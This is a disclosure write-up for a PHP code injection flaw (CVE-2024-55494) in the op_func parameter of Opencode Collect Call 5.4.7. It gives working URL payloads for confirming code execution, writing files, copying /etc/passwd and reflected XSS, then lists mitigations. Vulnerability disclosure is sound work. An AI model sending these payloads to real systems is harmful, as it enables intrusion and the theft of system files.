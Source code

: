 # PHP Code Injection Vulnerability (CVE-2024-55494)

## Overview

This vulnerability was discovered in the Opencode Collect Call application (https://opencode.com/), version 5.4.7. This repository documents the analysis and exploitation of a PHP code injection vulnerability (CVE-2024-55494). 
The vulnerability resides in the `op_func` parameter of the `/index.php` endpoint, allowing attackers to execute arbitrary PHP code.

## Identify the vulnerability  

```url
occontrolpanel/index.php?op_func=getFiles%7b$%7bsleep(10)%7d%7d
```
![](screenshots/sleep.png)
 
This payload executes the PHP `sleep()` function, introducing a delay and confirming code execution.

---

## Exploitation Examples


### 1: Writing Files

Payload:

```url
occontrolpanel/index.php?op_func=getFiles%7b$%7bfile_put_contents('test.txt', 'PHP Injection Successful')%7d%7d
```
![](screenshots/create_file.png)

Created `test.txt` with the content "PHP Injection Successful."

### 2: Reading Sensitive Files

Payload:

```url
occontrolpanel/index.php?op_func=getFiles%7b$%7bfile_put_contents('passwd_dump.txt', file_get_contents('/etc/passwd'))%7d%7d
```
![](screenshots/phpinfo.png)

Extracted `/etc/passwd` into `passwd_dump.txt`.

### 3: Cross Site Scripting

Payload:

```url
occontrolpanel/occontrolpanel/index.php?w=occampaigns&op=SubUsers&op_func=getSubUsersByProvider//?><script>alert('Hacked By Asiacell VAPT team!')</script>&account_id=
```
![](screenshots/XSS.png)

 Execute XXS Payload .


---

## Mitigation Recommendations

1. **Input Validation**: Sanitize all user input using `filter_input()` or equivalent methods.
2. **Disable Dangerous Functions**: Restrict use of `eval()`, `create_function()`, and `{${...}}` syntax.
3. **Secure File Permissions**: Restrict write access to critical directories.

## Disclaimer

This repository is intended for educational and research purposes only. Unauthorized use of this information may violate laws or agreements. Use responsibly.

